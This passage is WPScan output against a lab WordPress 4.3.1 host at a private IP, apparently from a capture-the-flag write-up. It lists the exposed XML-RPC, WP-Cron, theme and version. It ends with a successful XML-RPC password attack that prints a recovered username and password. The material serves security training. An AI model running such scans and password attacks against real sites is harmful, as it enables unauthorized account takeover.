 ```
 | Confidence: 100%

[+] robots.txt found: http://10.10.228.141/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.228.141/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://10.10.228.141/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.228.141/ac294cd.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.228.141/ac294cd.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.228.141/wp-content/themes/twentyfifteen/
 | Last Updated: 2022-01-25T00:00:00.000Z
 | Readme: http://10.10.228.141/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.1
 | Style URL: http://10.10.228.141/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.228.141/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:08 <=====================================> (137 / 137) 100.00% Time: 00:00:08

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - mich05654 / Dylan_2791                                                                                  
```